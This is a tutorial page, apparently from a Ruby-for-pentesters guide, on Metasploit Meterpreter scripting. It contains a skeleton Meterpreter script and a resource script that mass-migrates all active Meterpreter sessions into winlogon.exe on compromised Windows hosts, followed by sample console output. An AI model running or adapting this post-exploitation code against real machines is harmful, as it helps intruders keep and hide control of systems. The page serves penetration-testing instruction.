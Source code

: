 # Meterpreter Scripting

Since the Meterpreter scripting is planned to be removed and replaced with POST module, we'll put a skeleton Meterpreter script only.

You can locate you new Meterpreter script in

* The framework it-self `metasploit-framework/scripts/meterpreter` or,
* In your Metasploit user's path `~/.msf/scripts/meterpreter`

## Absolute Meterpreter Script

```ruby
# $Id$
# $Revision$
# Author: 
#-------------------------------------------------------------------------------
################## Variable Declarations ##################

@client = client
sample_option_var = nil
@exec_opts = Rex::Parser::Arguments.new(
    "-h" => [ false, "Help menu." ],
    "-o" => [ true , "Option that requires a value"]
    )
meter_type = client.platform

################## Function Declarations ##################

# Usage Message Function
#-------------------------------------------------------------------------------
def usage
    print_line "Meterpreter Script for INSERT PURPOSE."
    print_line(@exec_opts.usage)
    raise Rex::Script::Completed
end

# Wrong Meterpreter Version Message Function
#-------------------------------------------------------------------------------
def wrong_meter_version(meter = meter_type)
    print_error("#{meter} version of Meterpreter is not supported with this Script!")
    raise Rex::Script::Completed
end

################## Main ##################
@exec_opts.parse(args) { |opt, idx, val|
    case opt
    when "-h"
        usage
    when "-o"
        sample_option_var = val
    end
}

# Check for Version of Meterpreter
wrong_meter_version(meter_type) if meter_type !~ /win32|win64|java|php|linux/i # Remove none supported versions
```

The script is directly quoted from the Metasploit samples

## Run Process migration on multiple meterpreter sessions

From \`msfconsole\` and after getting all metherpreter sessions, go to `post/windows/manage/migrate`

```text
use post/windows/manage/migrate
```

> **Note:** make sure you've the sufficient privileges to migrate to the designated processe

Then create a file with `rc` extension including the `<ruby> </ruby>` tages

**mass-mirgation.rc**

```ruby
<ruby>
# Find PID by name
def find_pid(session_num, session, process)
  print_status("Session #{session_num} | Finding PID of processe #{process}")
    session.sys.process.get_processes().each do |x|
    proc_name, proc_id = x['name'].downcase, x['pid']

    return proc_id if proc_name == process.downcase
  end
end

process = 'winlogon.exe'
framework.sessions.each do |num,session|
  run_single("set PID #{find_pid(num, session, process)}")
  run_single("set SESSION #{num}")
  print_status("Running #{active_module.fullname} against session #{num}")
  run_single("run -j")
  sleep 1
end
</ruby>
```

Now, from msfconsole,

```text
resource /home/rubyfu/mass-migration.rc
```

Result will be similar to

```text
[*] Running post/windows/manage/migrate against session 2
[*] Post module running as background job

[*] Running module against WIN-NG118S6TM0H
[*] Current server process: shell.exe (3968)
[*] Spawning notepad.exe process to migrate to
[*] Session 2 | Finding PID of processe winlogon.exe
[+] Migrating to 3628
SESSION => 3
[*] Running post/windows/manage/migrate against session 3
[*] Post module running as background job
[*] Running module against HOME
[*] Current server process: shell.exe (2684)
[*] Session 3 | Finding PID of processe winlogon.exe
[+] Migrating to 2444
SESSION => 4
[*] Running post/windows/manage/migrate against session 4
[*] Post module running as background job
[*] Running module against WIN-8H4IDI0SR5A
[*] Current server process: shell.exe (2996)
[*] Session 4 | Finding PID of processe winlogon.exe
[+] Migrating to 2240

[+] Successfully migrated to process 3628
[+] Successfully migrated to process 2444
[+] Successfully migrated to process 2240
```

